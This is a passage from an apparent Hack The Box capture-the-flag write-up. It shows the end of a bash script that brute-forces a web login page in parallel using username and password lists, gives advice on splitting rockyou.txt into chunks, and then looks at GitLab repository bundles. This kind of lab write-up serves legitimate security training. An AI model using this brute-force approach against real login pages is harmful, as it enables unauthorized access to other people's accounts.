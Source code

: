 ```bash
                http://$HOST:$PORT/user/login)

    if [ $CODE -eq 302 ]; then
        echo "[+] User is $USER, Password is $PASS"
        die
    fi

    # clean up
    rm -f $COOKIE
}

export -f check

parallel -q -j10 check ::: $USER :::: $PASS
```

The script runs more efficient with a large wordlist like `rockyou.txt` split up into smaller wordlists. I'd split up `rockyou.txt` into 100 chunks, e.g. `rockyou_000` to `rockyou_099`. Let's give it a shot.

{% include image.html image_alt="8d95af67.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/8d95af67.png" %}

Now, let's verify the password.

{% include image.html image_alt="769f9a1d.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/769f9a1d.png" %}

Not too bad, considering that `rockyou.txt` has about 14 million lines.

### Gitlab Repository Backup

There's no point in cloning the `memcached` repository because it's the same we'd dumped earlier. Let's focus in on the `gitlab` repository.

{% include image.html image_alt="3e6b7419.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/3e6b7419.png" %}

Hmm, looks like there's only one commit too. Fret not, several repositories are "bundled" and saved in `repo.zip` like so.

{% include image.html image_alt="db165835.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/db165835.png" %}

Check out the "bundles" in `repo.zip`.

{% include image.html image_alt="97c2717b.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/97c2717b.png" %}

According to `git-bundle` [documentation](https://git-scm.com/docs/git-bundle),

> Some workflows require that one or more branches of development on one machine be replicated on another machine, but the two machines cannot be directly connected, and therefore the interactive Git protocols (git, ssh, http) cannot be used.
>
> The _git bundle_ command packages objects and references in an archive at the originating machine, which can then be imported into another repository using _git fetch_, _git pull_, or _git clone_, after moving the archive by some means (e.g., by sneakernet).
>
> As no direct connection between the repositories exists, the user must specify a basis for the bundle that is held by the destination repository: the bundle assumes that all objects in the basis are already in the destination repository.


[1]: https://www.hackthebox.eu/home/machines/profile/253
[2]: https://www.hackthebox.eu/home/users/profile/23790
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/